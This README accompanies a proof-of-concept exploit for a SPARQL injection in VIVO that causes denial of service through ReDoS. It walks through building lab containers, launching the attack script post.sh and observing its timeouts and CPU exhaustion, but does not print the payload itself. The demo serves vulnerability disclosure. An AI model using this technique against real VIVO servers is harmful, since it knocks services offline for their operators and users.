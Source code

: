 # SPARQL Injection in VIVO

This directory contains a proof-of-concept exploit for a SPARQL injection vulnerability in [VIVO](https://duraspace.org/vivo/). The exploit targets [this line of code](https://lgtm.com/projects/g/vivo-project/Vitro/latest/files/api/src/main/java/edu/cornell/mannlib/vitro/webapp/dao/jena/IndividualSDB.java?sort=name&dir=ASC&mode=heatmap#L155). It triggers a denial of service by generating a query containing a [ReDoS](https://www.owasp.org/index.php/Regular_expression_Denial_of_Service_-_ReDoS).

## Network setup

Create a docker network bridge, to simulate a network with two separate computers.

```
docker network create -d bridge --subnet 172.18.0.0/16 vivo-demo-network
```

## Vivo server setup

Build the docker image:

```
docker build vivo-server -t vivo-server --build-arg UID=`id -u`
```

Start the container:

```
docker run --rm --network vivo-demo-network --ip=172.18.0.10 -h vivo-server --publish 8000:8000 --publish 8080:8080 -i -t vivo-server
```

Inside the container, start VIVO.

```
sudo ./init_mysql.sh  #  password is: x
/usr/local/tomcat/bin/catalina.sh start
```

It seems to take Vivo at least 10 minutes to initialize itself. You can monitor its progress in this log file:

```
/usr/local/tomcat/logs/vivo.all.log
```

Vivo isn't ready until you see lines like this at the bottom of `vivo.all.log`:

```
2019-01-17 22:19:31,004 INFO  [IndexHistory] STARTUP, 1/17/19, 10:17 PM, []
2019-01-17 22:19:31,008 INFO  [FreemarkerSetup] Freemarker templating system initialized.
2019-01-17 22:19:31,122 INFO  [VClassGroupCache] VClassGroupCache added to context
2019-01-17 22:19:31,123 INFO  [VClassGroupCache] VClassGroupCache set to listen to events from IndexBuilder
2019-01-17 22:19:31,126 INFO  [StartupManager] Called 'contextInitialized' on all listeners.
2019-01-17 22:19:31,330 INFO  [JSessionStripFilter] Filtering: no jsessionids will be generated.
```

At this point, you can check that Vivo is running by visiting [http://127.0.0.1:8080/vivo](http://127.0.0.1:8080/vivo) in your browser. (We exposed port 8080 on the docker container.) To login, the username is `vivo_root@mydomain.edu` and the password is `rootPassword`.

# Tomcat debugging

You can debug the application with Eclipse, even when it is running in docker. To do this you need to also bind port 8000 when you start docker. (This was already included in the instructions above.)

Inside docker, start tomcat like this:

```
export JPDA_ADDRESS=0.0.0.0:8000
export JPDA_TRANSPORT=dt_socket
/usr/local/tomcat/bin/catalina.sh jpda start
```

Next you need to get the VIVO source code on your main machine and build it. The purpose of this is primarily to get maven to download all the dependencies so that Eclipse can see them.

```
git clone https://github.com/vivo-project/VIVO.git
git clone https://github.com/vivo-project/Vitro.git
cd VIVO/
mvn package -DskipTests
mvn eclipse:eclipse
```

Then import the VIVO and Vitro projects into Eclipse. Inside Eclipse, create a remote debug configuration, connecting to localhost:8000 (which is the default.)

## Attacker setup

Build the docker image:

```
docker build vivo-attacker -t vivo-attacker
```

Start the container:

```
docker run --rm --network vivo-demo-network --ip=172.18.0.11 -h vivo-attacker -i -t vivo-attacker
```

Inside the container, use `post.sh` to send 8 malicious request to VIVO.

```
./post.sh
```

The `curl` command inside `post.sh` never receives a response from the VIVO server, so you will see 8 timeout error messages on the command line:

```
curl: (28) Operation timed out after 1001 milliseconds with 0 bytes received
curl: (28) Operation timed out after 1001 milliseconds with 0 bytes received
curl: (28) Operation timed out after 1001 milliseconds with 0 bytes received
curl: (28) Operation timed out after 1001 milliseconds with 0 bytes received
curl: (28) Operation timed out after 1001 milliseconds with 0 bytes received
curl: (28) Operation timed out after 1001 milliseconds with 0 bytes received
curl: (28) Operation timed out after 1001 milliseconds with 0 bytes received
curl: (28) Operation timed out after 1001 milliseconds with 0 bytes received
```

VIVO is now hogging 8 CPU cores.
